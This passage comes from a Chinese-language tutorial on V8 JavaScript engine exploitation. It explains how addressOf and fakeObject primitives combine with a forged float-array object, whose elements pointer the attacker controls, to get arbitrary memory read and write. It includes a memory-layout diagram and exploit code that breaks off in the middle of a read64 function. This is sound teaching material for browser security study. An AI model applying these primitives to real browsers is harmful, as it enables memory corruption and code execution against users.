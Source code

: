 注意v8会给内存地址+1，所以泄露object地址的时候要将输出结果-1。  
同样在构造fake_obj的时候内存中存储的地址为addr+1,得到的obj是一个对象，就不必有什么+-操作了。

## 构造地址任意读写

有了这俩函数怎么构造地址任意读写呢？下面就得结合上面v8对象内存布局来看：

```
 ArrayObject  ---->-------------------------+          
                   |      map               |          
                   +------------------------+          
                   |      prototype         |          
                   +------------------------+          
                   |      elements 指针      |          
                   |                        +
                   +------------------------+
                   |      length            |
                   +------------------------+
                   |      properties        |
                   +------------------------+
```

如果我们在一块内存上部署了上述虚假的内存属性，比如map，prototype,elements指针、length、properties属性，我们就可以用fakeObject把这块内存强制伪造成一个数组对象。  
我们构造的这个对象的elements指针是可以控制的，如果我们将这个指针修改成我们想要访问的内存地址，那后续我们访问这个数组对象的内容，实际上就是访问我们修改后的内存地址指向的内容，这样也就实现了对任意指定地址的内容访问读写效果了。  

下面是具体的构造：

我们首先创建一个float数组对象fake_array，可以用addressOf泄露fake_array对象的地址，然后根据elements对象与fake_object的内存偏移，可以得出elements地址= addressOf(fake_object) - (0x10 + n * 8)(n为元素个数)，而elements+0x10为实际存储元素的位置。  
我们提前将fake_object构造为如下的形式：

```js
var fake_array = [
    float_array_map,//fake to be a float arr object
    i2f(0n),
    i2f(0x41414141n),//fake obj's elements ptr
    i2f(0x1000000000n),
    1.1,
    2.2
];
```

则我们可以通过addressOf(fake_array)-0x30计算得到存储数组元素内容的地址，然后使用fakeObject将这个地址转换为对象fake_obj，之后我们访问fake_obj[0]，实际上访问的就是0x41414141+0x10的内容(注意实际的元素存储在elements+0x10处)。  
下面是地址任意读写的实现：
```js
var fake_array = [
    float_array_map,
    i2f(0n),
    i2f(0x41414141n),//fake obj's elements ptr
    i2f(0x1000000000n),
    1.1,
    2.2
];

var fake_arr_addr = addressOf(fake_array);
var fake_object_addr = fake_arr_addr - 0x40n + 0x10n;
var fake_object = fakeObject(fake_object_addr);

//randomRead

function read64(addr)
{
    fake_array[2] = i2f(addr - 0x10n + 0x1n);
    let leak_data = f2i(fake_object[0]);
```